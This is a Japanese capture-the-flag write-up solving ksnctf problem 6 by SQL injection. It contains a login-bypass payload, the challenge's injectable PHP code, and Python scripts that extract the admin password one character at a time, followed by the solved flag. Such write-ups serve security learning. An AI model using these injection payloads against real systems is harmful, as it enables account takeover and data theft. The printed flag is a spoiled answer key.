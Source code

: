 ```yaml
--- 
title: "ksnctf login write-up" 
emoji: "📝" 
type: "tech" 
topics: ["ctf", "SQL", "PHP", "python"] 
published: true
--- 
```


みなさん、こんにちは。 cork（コルク）です。 
セキュリティの勉強としてctfをやっていますが、記録のためにwrite-upを書いていこうと思います。 

# login (120 points) 

## 概要 
有名な常設CTFである[ksnctf](https://ksnctf.sweetduet.info/)の[第6問](https://ksnctf.sweetduet.info/problem/6)の解説です。 
ネタバレするとBlind SQL Injectionの問題です。

## 問題 
以下のURLが与えられます。
[http://ctfq.u1tramarine.blue/q6/](http://ctfq.u1tramarine.blue/q6/)
[https://ctfq.u1tramarine.blue/q6/](https://ctfq.u1tramarine.blue/q6/)

## 解説
まず、リンクにアクセスしてみるとログイン画面が出るとともに`First, login as "admin".`と書かれているのでSQLインジェクションかなと思い、とりあえずログインしてみます。

![](https://storage.googleapis.com/zenn-user-upload/b7e737addfbc-20211210.png =250x)*login page* 

**ID**に"admin"、**Pass**に"1' or '1' = '1';--"を入力してログインしたところ以下のページが表示されました。

```
Congratulations!
It's too easy?
Don't worry.
The flag is admin's password.

Hint:
<?php
    function h($s){return htmlspecialchars($s,ENT_QUOTES,'UTF-8');}
    
    $id = isset($_POST['id']) ? $_POST['id'] : '';
    $pass = isset($_POST['pass']) ? $_POST['pass'] : '';
    $login = false;
    $err = '';
    
    if ($id!=='')
    {
        $db = new PDO('sqlite:database.db');
        $db->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_SILENT);
        $r = $db->query("SELECT * FROM user WHERE id='$id' AND pass='$pass'");
        $login = $r && $r->fetch();
        if (!$login)
            $err = 'Login Failed';
    }
?><!DOCTYPE html>
<html>
  <head>
    <meta charset="utf-8">
    <title>q6q6q6q6q6q6q6q6q6q6q6q6q6q6q6q6</title>
  </head>
  <body>
    <?php if (!$login) { ?>
    <p>
      First, login as "admin".
    </p>
    <div style="font-weight:bold; color:red">
      <?php echo h($err); ?>
    </div>
    <form method="POST">
      <div>ID: <input type="text" name="id" value="<?php echo h($id); ?>"></div>
      <div>Pass: <input type="text" name="pass" value="<?php echo h($pass); ?>"></div>
      <div><input type="submit"></div>
    </form>
    <?php } else { ?>
    <p>
      Congratulations!<br>
      It's too easy?<br>
      Don't worry.<br>
      The flag is admin's password.<br>
      <br>
      Hint:<br>
    </p>
    <pre><?php echo h(file_get_contents('index.php')); ?></pre>
    <?php } ?>
  </body>
</html>
```

どうやらログインするだけではフラグは取れず、adminのパスワードがフラグになっておりそれを見つけないといけないそうです。

とりあえず、パスワードを総当たりで探そうと思います。
SQLの知識は学校で習った程度だったので、LIKEを用いて1文字ずつ探したらいけそうかなと思ったのでpythonでプログラムを組んで総当たりで探しました。

上記のページを見ている感じはPOSTが使われてそうなので、pythonのrequestsを使ってidとpassを送信して、`Congratulations!`を含む文字列が返されたかを判定することでログインに成功したかを判定しています。
また、パスワードの候補となる文字についてはASCIIコードなどを使うのが面倒だったので、`printable characters python`とGoogleで検索して出てくる[このページ](https://stackoverflow.com/questions/5891453/how-do-i-get-a-list-of-all-the-ascii-characters-using-python)に書いてる文字列にちょっと変更を加えたものを使用しています。（友達に教えてもらいました。）

※SQLおよびpythonに対しての知識がほぼ皆無に等しい状況でコードを書いたので、クソコードになっています。**参考にしないでください**。

```python
import requests

def is_correct_pw(pw:str):
    url = "http://ctfq.u1tramarine.blue/q6/"
    login = {
        'id': "admin",
        'pass': f"' LIKE '{pw}%'--"
    }
    r = requests.post(url, data=login)
    return ('Congratulations!' in r.text)

password = ""
for i in range(30):
    for c in "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!#$&()*+,-./:;<=>?@[\]^_`{|}~":
        if(is_correct_pw(password + c)):
            password += c
            break
print(password)
```

見ていただいたようにSQL文がかなりぐちゃぐちゃだったため、全然特定ができませんでした。

そこでとりあえずSQLについてしっかりと理解した上でパスワードの長さだけでも解りたいということでコードを書きました。




```python
import requests

# パスワードの長さの推測
password_length  = 1
for i in range(100):
    url = "http://ctfq.u1tramarine.blue/q6/"
    sql = f"admin' AND (SELECT LENGTH(pass) FROM user WHERE id = 'admin') = {i} --"
    login = {
        'id': sql,
        'pass': "aaa"
    }
    r = requests.post(url, data=login)
    if('Congratulations!' in r.text):
        print("length of admin's password is",i)
        password_length = i
        break
```

この結果、パスワードの長さが21であることがわかりました。
次にどうすればパスワードがわかるかなと思って色々調べているとSQLに**SUBSTR**というものがあることがわかりました。
これは文字列から任意の長さの文字列を切り出せるものでSUBSTRを用いてパスワードを1文字ずつ切り出して、それがどの文字と一致するかを調べるコードを書きました。

```python
import requests

# パスワードの長さの推測
password_length  = 1
for i in range(100):
    url = "http://ctfq.u1tramarine.blue/q6/"
    sql = f"admin' AND (SELECT LENGTH(pass) FROM user WHERE id = 'admin') = {i} --"
    login = {
        'id': sql,
        'pass': "aaa"
    }
    r = requests.post(url, data=login)
    if('Congratulations!' in r.text):
        print("length of admin's password is",i)
        password_length = i
        break

# password全探索の前処理
def is_correct_pw(i:int,pw:str)->bool:
    url = "http://ctfq.u1tramarine.blue/q6/"
    sql = f"admin' AND SUBSTR((SELECT pass FROM user WHERE id = 'admin'), {i}, 1) = '{pw}' --"
    login = {
        'id': sql,
        'pass': ""
    }
    r = requests.post(url, data=login)
    return ('Congratulations!' in r.text)

# passwordの全探索
password = ""
for i in range(1,password_length + 1):
    for c in "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!#$&()*+,-./:;<=>?@[\]^_`{|}~":
        if(is_correct_pw(i,c)): 
           password += c
           print(password)
           break
print("admin's password is",password)
```

この結果、FLAGがゲットできました。
```
FLAG_KpWa4ji3uZk6TrPK
```
